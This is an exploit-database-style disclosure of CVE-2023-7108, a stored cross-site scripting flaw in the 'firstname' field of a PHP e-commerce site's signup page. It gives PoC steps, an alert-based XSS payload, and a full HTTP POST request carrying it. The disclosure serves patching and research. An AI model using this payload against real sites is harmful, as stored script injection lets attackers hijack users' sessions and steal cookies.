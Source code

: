 # CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Exploit Title:** CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7108

## References: 
+ **CVE-2023-7108:** https://vuldb.com/?id.249003
+ https://www.cve.org/CVERecord?id=CVE-2023-7108
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7108

## Description:
E-Commerce Website 1.0 allows Stored Cross-site Scripting via parameter 'firstname' in "Electricks/Electricks-shop/pages/user_signup.php". E-Commerce Website is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill First name with this payload: `<video/src=x onerror=alert(document.domain)>`
+ Fill the the all form and click Create Account button.
+ Then navigate to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
+ Then XSS will be triggered permanently.
+ Refresh and alert will continue to pop-up.
+ Example request for 'firstname' parameter:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
Cookie: PHPSESSID=8imurtv40ut9ah7s8bk6auen4i
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

firstname=%3Cvideo%2Fsrc%3Dx+onerror%3Dalert%28document.domain%29%3E&middlename=test3&lastname=test3&email=test3&address=test3&contact=test3&username=test3&password=test&submit=
```
+ Go to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.

![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/931dcbe2-fc38-44ad-b314-a080f8a60cd0)
<br>
<br>
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/753e20c4-eef8-4655-bc3f-869370c08d24)

